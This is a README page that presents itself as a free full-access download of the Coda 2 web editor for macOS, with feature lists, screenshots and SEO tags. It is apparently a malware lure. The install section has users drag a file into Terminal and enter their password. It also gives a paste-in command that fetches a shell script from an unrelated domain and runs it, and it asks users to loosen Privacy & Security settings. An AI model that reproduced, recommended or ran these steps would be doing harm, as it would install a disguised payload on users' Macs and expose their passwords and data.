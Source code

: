 <p align="center">
  <img src="https://i.ibb.co/PspJDLQK/1604674112-coda.png" alt="Coda 2 macOS Banner" />
</p>

<h1 align="center">Coda 2 for macOS</h1>

<p align="center">
  💻 Write code, deploy via FTP, preview in real time — all in one clean macOS-native interface.  
  <br><br>
  ✅ Native Apple Silicon & Intel support  
  ✅ Compatible with macOS Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/178" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20CODA%202%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Coda 2 for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/Q7cv3CnQ/1670151360-4.webp" alt="Coda 2 Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Coda 2?

**Coda 2** is a legendary all-in-one web development tool for macOS. It combines a powerful text editor with syntax highlighting, an integrated FTP client, a built-in terminal, and real-time preview in a single window.

Perfect for front-end and full-stack developers who want speed, elegance, and efficiency, Coda 2 reduces the need for switching between multiple tools and helps you stay focused on building responsive, modern websites.

Runs smoothly on **Apple Silicon (M1/M2/M3)** and supports **macOS Sonoma**, **Ventura**, and **Monterey**.

---

## ✅ Why Choose Coda 2?

- 🧠 **Unified Code Editor & FTP Client**  
- 🌍 **Live Preview in Real Time**  
- 🧩 **Built-in Terminal for SSH Access**  
- 🔧 **Custom Syntax Modes & Themes**  
- 🚀 **Quick Publish & Save-on-Upload**  
- 📁 **Site Management & Local Projects**  
- 💻 **macOS Native Performance**  
- ✨ **Lightweight & Beautiful UI**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/zhzntTLt/1670151359-2.webp" alt="Coda 2 Code Editor Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/tpxBWsz8/1670151360-3.webp" alt="Coda 2 Preview & Terminal Screenshot" />
</p>

---

## 🚀 Key Features

- Full-featured HTML, CSS, JS, PHP editor  
- MySQL database management  
- Git integration  
- Built-in terminal and SSH  
- One-click FTP/SFTP publishing  
- Local site preview  
- Tabs, code folding, and autocompletion  
- Plugin support and themes

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Coda 2 under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-Web+Development+Editor-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-FTP+Preview+Terminal+Editor-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Coda 2 – Web Dev Without the Mess

Thanks for using **Coda 2 for macOS**.  
Your all-in-one tool for building and deploying the web.

---

## 🧭 Usage Context

Coda 2 is intended for standalone web development, deployment, and local site management workflows.  
No external account or cloud dependency required.

All development is handled locally and via direct server connection.  
Not affiliated with Apple or third-party hosting services.

---

## 🔍 Tags

```text
coda 2 for mac download, coda 2 web development editor macos, download coda app with ftp terminal mac, coda 2 preview and publish tool mac, all in one code editor for mac developers, macos web design live preview app, coda 2 m1 native support macbook, mac ftp sftp html css editor app, coda mac responsive site builder tool, offline coding and deployment app mac, ssh terminal with code preview coda 2, download full coda 2 for macos ventura, code editor publish preview mac native, lightweight website manager mac coda, text editor with sync and upload macos
